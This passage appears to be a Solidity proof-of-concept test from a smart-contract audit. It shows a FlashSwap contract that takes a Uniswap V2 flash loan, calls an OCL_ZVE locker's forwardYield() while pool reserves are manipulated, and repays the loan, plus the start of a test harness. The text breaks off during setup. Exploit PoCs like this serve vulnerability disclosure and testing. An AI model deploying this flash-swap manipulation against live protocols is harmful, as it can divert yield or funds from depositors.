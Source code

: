 ```solidity
interface I_OCL_ZVE {
    function forwardYield() external;
}

contract FlashSwap {
    IPair pair;

    constructor(address _pair) {
        pair = IPair(_pair);
    }

    function executeFlashSwap(address _token, uint256 _amount, bytes memory data) external {
        if (_token == pair.token0()) {
            pair.swap(_amount, 0, address(this), data);
        } else if (_token == pair.token1()) {
            pair.swap(0, _amount, address(this), data);
        } else {
            revert("Wrong token!");
        }
    }

    function uniswapV2Call(address sender, uint256 amount0, uint256 amount1, bytes memory data) external {
        require(sender == address(this), "Wrong call!");
        require(msg.sender == address(pair), "Not pair called");
        address ocl_zve_univ2 = abi.decode(data, (address));
        I_OCL_ZVE(ocl_zve_univ2).forwardYield();
        address token0 = pair.token0();
        address token1 = pair.token1();
        if (amount0 == 0) {
            IERC20(token1).approve(address(pair), amount1 + amount1 * 3 / 997 + 1);
            IERC20(token1).transfer(address(pair), amount1 + amount1 * 3 / 997 + 1);
        } else {
            IERC20(token0).approve(address(pair), amount0 + amount0 * 3 / 997 + 1);
            IERC20(token0).transfer(address(pair), amount0 + amount0 * 3 / 997 + 1);
        }
    }
}

contract Test_OCL_ZVE_POC is Utility {
    using SafeERC20 for IERC20;

    OCL_ZVE OCL_ZVE_UNIV2_USDC;

    OCT_YDL Treasury;

    FlashSwap flashswap;

    address usdc = 0xA0b86991c6218b36c1d19D4a2e9Eb0cE3606eB48;
    address whale = 0x8e5dEdeAEb2EC54d0508973a0Fccd1754586974A;
    address user = makeAddr("user");

    address public UNIV2_ROUTER;

    function setUp() public {
        deployCore(false);

        Treasury = new OCT_YDL(address(DAO), address(GBL));

        // Simulate ITO (10mm * 8 * 4), DAI/FRAX/USDC/USDT.
        simulateITO(10_000_000 ether, 10_000_000 ether, 10_000_000 * USD, 10_000_000 * USD);

        // Initialize and whitelist OCL_ZVE Uniswap v2 locker's.
```